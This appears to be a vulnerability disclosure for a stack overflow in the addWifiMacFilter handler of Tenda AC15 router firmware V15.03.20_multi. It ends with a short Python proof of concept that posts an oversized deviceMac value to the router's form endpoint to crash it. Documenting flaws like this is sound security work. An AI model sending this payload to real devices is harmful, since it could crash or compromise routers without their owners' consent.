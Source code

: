## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v11` variable receives the `deviceMac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v11` can trigger this security vulnerability.

![image-20240306165547354](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306165547354.png)

![image-20240314153520732](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314153520732.png)

![image-20240306165606917](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306165606917.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": payload, "deviceId":1}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314153436574.png)